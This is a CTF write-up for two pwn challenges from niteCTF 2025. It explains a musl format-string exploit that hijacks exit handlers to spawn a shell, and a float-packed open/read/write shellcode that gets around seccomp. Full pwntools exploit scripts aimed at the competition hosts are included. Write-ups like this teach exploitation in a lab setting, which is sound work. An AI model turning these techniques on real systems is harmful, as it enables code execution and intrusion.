



>[niteCTF 2025](https://ctftime.org/event/2851) is a two-day online and jeopardy style competition hosted by [Cryptonite](https://ctftime.org/team/62713).

I was able to solve 5 tasks and 2 of them in the PWN, on one of the PWNs I have managed to blood :)


I was participating with my teammates - [FR13NDS TEAM](https://ctftime.org/team/155678) and we took 7-th place at this event, also totally managed to take 4 bloods!


# Table of contents

- beating_yellow_king_with_musl_in_ng+
- IEEE DANCER

# 1. beating_yellow_king_with_musl_in_ng+

## Description
Beat the YellowKing in new game+ mode with your muscles, brawn over brain baby!

## Solution

TL;DR:

0. Bypass validation
1. Printf vuln, limited size, limited '%' usage, musl limits '$'
2. Arbitrary Read - leak libc
3. Arbitrary Write - leak stack with one byte write and pwntools's 'no_dollars' payload
4. Musl related exit_handlers hijack - RCE

### Initial Checks

We have the `chall` binary and `libc.so` library files. From the checksec we can see binary is protected with: Full RELRO, Canary enabled, NX enabled and No PIE. Binary is not stripped


And libc is protected with: Full RELRO, Canary enabled, NX enabled, PIE enabled. Libc is also not stripped


Also the libc is actually musl libc, we can verify it by executing the libc.so:


The binary is already linked with libc provided, so we can execute and check what it does:


We can create character and specify the character by index, and also can specify the class for the character, then we can defeat the king. And we can leave the binary.

To understand more precisely lets just open it in Binary Ninja and see what id does under the hood.

### Reverse / Vulnerability

Through the Binary Ninja we can see the functionality of the binary:


menu:


make_char:


action:


count_char:


Nothing too complicated:

0. We can choose from 1 - create character, 2 - do action, 3 - exit
1. We can create character by index from 0 up to 16, character can have its class we specify for allocated chunk `malloc(0x21)`
2. We can also specify character's name up to 0x20 bytes, for the buf which was allocated earlier by `malloc(0x21)`
3. The action function also asks for index of a character, its not validating it for empty
4. After that it checks some `indicator` from the last byte of a character and if it pass, then we can leave a message
5. There is printf vulnerability after we provide the message, but the size is limited to 0x30
6. And also before it goes to printf, it checks the message via `count_char` function, which just checks the count of '%' in the message, and if it exceeds 0xd, then we dont go to printf

There is just pure printf vulnerability in the `action()` function which we can now start exploiting, but there is some constraints we should met:

0. We need to craft valid name of character to bypass the check
1. Printf message we specify should not exceed 0x30 bytes at once
2. Also it checks for count of '%' in our payload, we also should not exceed 0xd bytes of '%' in our payload
3. And since its musl, there is also musl specific constraints in the printf, the usage of $ is limited in musl, we need to not rely on dollars.

### Part 1: Arbitrary Read

To bypass the check we just need to pass the if statement, which just checks if our `type` in the character is '0', we can overwrite the `type` by just sending exact 32 byte payload, since after that it will null the 0x20's byte in our buffer, which is the type we want to be 0

Now we can just create the template for our exploit and start first lines to reach into vulnerable printf and we can leak libc:
```python
def make_char(p, index, cls, name):
        p.sendlineafter(b'>>', b'1')
        p.sendlineafter(b'index:', str(index).encode())
        p.sendlineafter(b'>>', str(cls).encode())
        p.sendafter(b'>>', name)

def action(p, index, msg = None):
        p.sendlineafter(b'>>', b'2')
        p.sendlineafter(b'index:', str(index).encode())
        if msg:
                p.send(msg)

```
```python
make_char(p, 0, 1, b'A' * 32) # overwrite full buffer, buf[0x20] will be nulled and we reach message in action
action(p, 0, b'%p.' * 10) # leak pointers
p.recvuntil(b'adventurers')
p.recvline()

leaks = p.recvline().split(b'.')
libc_leak = int(leaks[5].decode(), 16)
libc.address = libc_leak - (0x70bb83e87280 - 0x70bb83dc9000)
print(f"Libc leak: {hex(libc_leak)}")
print(f"Libc address: {hex(libc.address)}")
```

### Part 2: Arbitrary Write

Now we can also write data into arbitrary location, since the musl is restricting the $ usage up to some limits, we can no longer behave in that, we can just simply use pwntool's fmtstr_payload with no_dollars option:

And the size limitations restricts us to write in one write, so we just split our payload into chunks, and send it one by one each iteration of using action:
```python
def prepare_64(target, data):
        res = []
        for i, b in enumerate(data):
                writes = {target + i : b}
                res.append(writes)
        return res

def arb_write(p, offset, target, data, rel):
        res = prepare_64(target, p64(data))[:rel]
        for i in res:
                payload = fmtstr_payload(offset, i, no_dollars = True)
                action(p, 0, payload)
```

`prepare_64` is just crafting for us the needed chunks, and `arb_write` will send it to the action, also generating the payload using `fmtstr_payload` with no_dollars option.

Now we also can easily leak stack, i was not able to easily leak the stack from directly printf, i will just overwrite the pointer of the `list` entry to libc.sym.environ and leak via action which prints it in %s

The offset for overwriting the data via printf is 8
```python
target = exe.sym.list + 16
offset = 8

arb_write(p, offset, target - 8, libc.sym.environ, -2)
p.sendlineafter(b'>>', b'2')
p.sendlineafter(b'index:', b'1')
p.recvuntil(b'chose ')

stack_leak = u64(p.recv(6).ljust(8, b'\x00'))
print(f"Stack: {hex(stack_leak)}")

p.sendafter(b'leave', b'a')
```

### Part 3: Musl and Exit handlers

Now the most interesting part appears, in the default glibc there will be a lot more opportunity to reach the code execution, since its musl there are not a lot options here.

We can try to perform ROP chain into stack which was my first idea to come up, but i gave up on that and tried to search something related in musl.

Musl does not have onegadgets and the libc itself is Full RELRO which makes it more pain but not so much.

I came up with reading how the exit_handlers in the musl works and found:
[atexit.c](https://github.com/esmil/musl/blob/master/src/exit/atexit.c)

This not much going on, basically what we need is that there `__funcs_on_exit` checks the head and iterates through it, it gets the function pointer in that list and executes `func(arg1)`

So this we will tak advantage of, we overwrite struct fl (head) to point somewhere we control, and in that pointer we craft fake fl to create the function pointer pointing to system and arg1 to /bin/sh:
```python
arb_write(p, offset, target + 8, u64(b'/bin/sh\x00'), -1)

struct_fl = libc.address + 789896
fake_fl = stack_leak + 640

arb_write(p, offset, struct_fl, fake_fl, -2)
arb_write(p, offset, fake_fl, fake_fl, -2)
arb_write(p, offset, fake_fl + 0x100, libc.sym.system, -2)
arb_write(p, offset, fake_fl + 0x200, target + 8, -5)

p.sendlineafter(b'>>', b'3')
p.sendline(b'cat flag.txt')
```

I placed my /bin/sh into the known position of my `list`, then i defined the struct_fl location in the libc, which can be retrieve (if symbols exported) by revealing the `head` symbol in the gdb.

Then I write the pointer to my fake_fl structure into the libc struct_fl and then crafted needed positions for performing code execution by placing the function pointer to system and argument to the pointer I earlier write the /bin/sh to.

And also we make sure to not corrupt this list and point the list fd to ourself

Now during the exit the `__funcs_on_exit` will enumerate through our fake head structure and find needed function pointer and argument and execute it giving us a shell.

Then we just read the flag.

### Full Exploit Script

```python
from pwn import *

def prepare_64(target, data):
        res = []
        for i, b in enumerate(data):
                writes = {target + i : b}
                res.append(writes)
        return res

def arb_write(p, offset, target, data, rel):
        res = prepare_64(target, p64(data))[:rel]
        for i in res:
                payload = fmtstr_payload(offset, i, no_dollars = True)
                action(p, 0, payload)

def make_char(p, index, cls, name):
        p.sendlineafter(b'>>', b'1')
        p.sendlineafter(b'index:', str(index).encode())
        p.sendlineafter(b'>>', str(cls).encode())
        p.sendafter(b'>>', name)

def action(p, index, msg = None):
        p.sendlineafter(b'>>', b'2')
        p.sendlineafter(b'index:', str(index).encode())
        if msg:
                p.send(msg)

exe = ELF('./chall')
libc = ELF('./libc.so')
context.binary = exe
context.terminal = ["tmux", "splitw", "-h"]

p = remote('yellow.chals.nitectf25.live', 1337, ssl = True)
# p = gdb.debug([exe.path], '''continue''')

make_char(p, 0, 1, b'A' * 32)

action(p, 0, b'%p.' * 10)
p.recvuntil(b'adventurers')
p.recvline()

leaks = p.recvline().split(b'.')
libc_leak = int(leaks[5].decode(), 16)
libc.address = libc_leak - (0x70bb83e87280 - 0x70bb83dc9000)
print(f"Libc leak: {hex(libc_leak)}")
print(f"Libc address: {hex(libc.address)}")

target = exe.sym.list + 16
offset = 8

arb_write(p, offset, target + 8, u64(b'/bin/sh\x00'), -1)
arb_write(p, offset, target - 8, libc.sym.environ, -2)

p.sendlineafter(b'>>', b'2')
p.sendlineafter(b'index:', b'1')
p.recvuntil(b'chose ')

stack_leak = u64(p.recv(6).ljust(8, b'\x00'))
print(f"Stack: {hex(stack_leak)}")

p.sendafter(b'leave', b'a')

struct_fl = libc.address + 789896
fake_fl = stack_leak + 640

arb_write(p, offset, struct_fl, fake_fl, -2)
arb_write(p, offset, fake_fl, fake_fl, -2)
arb_write(p, offset, fake_fl + 0x100, libc.sym.system, -2)
arb_write(p, offset, fake_fl + 0x200, target + 8, -5)

p.sendlineafter(b'>>', b'3')
p.sendline(b'cat flag.txt')

p.interactive()
```

## Key Takeaways

- Limited printf is still useful
- Musl has pretty fun way to achieve rce via exit handlers :)

## References

- [atexit.c](https://github.com/esmil/musl/blob/master/src/exit/atexit.c)
- [fmtstr_payload](https://docs.pwntools.com/en/dev/fmtstr.html)

# 2. IEEE DANCER

## Description
Drain your floats in style with higher precision!

## Solution

TL;DR:

1. Execute any shellcode you write
2. Write through float packing
3. Seccomp restrictions - open, read, write shellcode

### Initial Checks

As usual we have been provided binary, lets check its protection:


Lets check what it does:


In the first place its asks for number of floats we want, then probably parses the float numbers we provide, after non float input it exits with illegal instruction error. Seems it tries to execute some shellcode, but lets just look at Binary Ninja

### Reverse / Vulnerability

After checking the Binary Ninja, we can see what it does:


0. We insert how much float numbers we want, it checks that not exceeding 0x64, then callocs with the number we provided
1. We provide the floats in the allocated chunk, then it creates rwx region using mprotect within our chunk
2. Invokes seccomp restrictions then executes our pointer

There is simple whats going on, we just need to pack the float payload into shellcode and execute it, the only limitations is seccomp which we can verify via seccomp-tools:


And we just need to perform classy open, read, write shellcode and thats it

### Shellcode

```asm
    /* open("./flag", 0, 0) */
    lea rdi, [rip + flag_str]
    xor esi, esi
    xor edx, edx
    mov rax, 2
    syscall

    /* read(fd, rsp, 100) */
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    xor rax, rax
    syscall

    /* write(1, rsp, rax) */
    mov rdx, rax
    mov rdi, 1
    mov rsi, rsp
    mov rax, 1
    mov rdx, 100
    syscall

    mov rdi, 0
    mov rax, 0xe7 # exit_group
    syscall

flag_str:
    .asciz "./flag"
```

### Full Exploit Script

```python
from pwn import *
import struct

exe = ELF('./chall_dancer')
context.binary = exe
context.terminal = ["tmux", "splitw", "-h"]

shellcode = asm('''
    /* open("./flag", 0, 0) */
    lea rdi, [rip + flag_str]
    xor esi, esi
    xor edx, edx
    mov rax, 2
    syscall

    /* read(fd, rsp, 100) */
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    xor rax, rax
    syscall

    /* write(1, rsp, rax) */
    mov rdx, rax
    mov rdi, 1
    mov rsi, rsp
    mov rax, 1
    mov rdx, 100
    syscall

    mov rdi, 0
    mov rax, 0xe7 # exit_group
    syscall

flag_str:
    .asciz "./flag"
''')

while len(shellcode) % 8 != 0:
    shellcode += b"\x90"

floats = []
for i in range(0, len(shellcode), 8):
    chunk = shellcode[i:i+8]
    float_val = struct. unpack('<d', chunk)[0]
    floats.append(float_val)

# p = gdb.debug([exe.path], '''continue''')
p = remote('dancer.chals.nitectf25.live', 1337, ssl = True)

p.sendlineafter(b'!', str(len(floats)).encode())

for f in floats:
        p.sendline(repr(f).encode())

p.interactive()
```

## Key Takeaways

- Float packing to write payload
- Classic open read write shellcode

## References

- [Syscall Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)

# Aftermath

During the ctf I was not able to solve Virtual Rift and Nitebus challenges, first was to get leverage of OOB in the custom VM then you can either do arbitrary free or use that OOB to write and exploit heap via tcache poison and perform FSOP. Second was an arm rop challenge
